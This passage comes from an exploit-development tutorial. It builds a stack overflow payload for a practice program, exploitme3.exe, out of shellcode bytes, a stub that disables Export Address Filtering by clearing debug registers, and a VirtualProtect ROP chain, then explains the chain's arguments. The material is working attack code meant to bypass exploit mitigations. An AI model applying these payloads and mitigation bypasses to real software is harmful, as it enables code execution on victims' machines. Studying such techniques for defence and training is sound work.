"\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0" +
"\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75" +
"\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d" +
"\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c" +
"\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24" +
"\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04" +
"\x30\x03\xc6\xeb\xdd")
disable_EAF = (
"\xB8\x50\x01\x00\x00" + # mov eax,150h
"\x33\xC9" + # xor ecx,ecx
"\x81\xEC\xCC\x02\x00\x00" + # sub esp,2CCh
"\xC7\x04\x24\x10\x00\x01\x00" + # mov dword ptr [esp],10010h
"\x89\x4C\x24\x04" + # mov dword ptr [esp+4],ecx
"\x89\x4C\x24\x08" + # mov dword ptr [esp+8],ecx
"\x89\x4C\x24\x0C" + # mov dword ptr [esp+0Ch],ecx
"\x89\x4C\x24\x10" + # mov dword ptr [esp+10h],ecx
"\x89\x4C\x24\x14" + # mov dword ptr [esp+14h],ecx
"\x89\x4C\x24\x18" + # mov dword ptr [esp+18h],ecx
"\x54" + # push esp
"\x6A\xFE" + # push 0FFFFFFFEh
"\x8B\xD4" + # mov edx,esp
"\x64\xFF\x15\xC0\x00\x00\x00" + # call dword ptr fs:[0C0h]
"\x81\xC4\xD8\x02\x00\x00" # add esp,2D8h
)
code = disable_EAF + shellcode
name = 'a'*36 + struct.pack('<I', ret_eip) + create_rop_chain(len(code)) + code
f.write(name)
write_file(r'c:\deleteme\name.dat')
The first part of the ROP chain initializes the arguments which are located at the end of the ROP chain itself:
# real_code:
0x90901eeb, # jmp skip
# args:
0xffffffff, # current process handle
0x11111111, # &address = ptr to address
0x11111111, # &size = ptr to size
0x40,
md + 0x705658f2, # &Writable location [MSVCR120.dll]
# end_args:
0x11111111, # address <------- the region starts here
code_size + 8 # size
The second argument (&address) is overwritten with end_args and the third argument (&size) with end_args + 4. To conclude, address (at end_args) is overwritten with its address (end_args).
Note that our code starts at real_code, so we should overwrite address with real_code, but there’s no need because VirtualProtect works with pages and it’s highly probable that real_code and end_args point to the same page.
The second part of the ROP chain finds call dword ptr fs:[0C0h] # add esp,4 # ret 14h in ntdll.dll and make the call to the kernel service.
First run the Python script to create the file name.dat and, finally, run exploitme3.exe. The exploit should work just fine!
Now you may enable all the protections (except for ASR, which doesn’t apply) and verify that our exploit still works!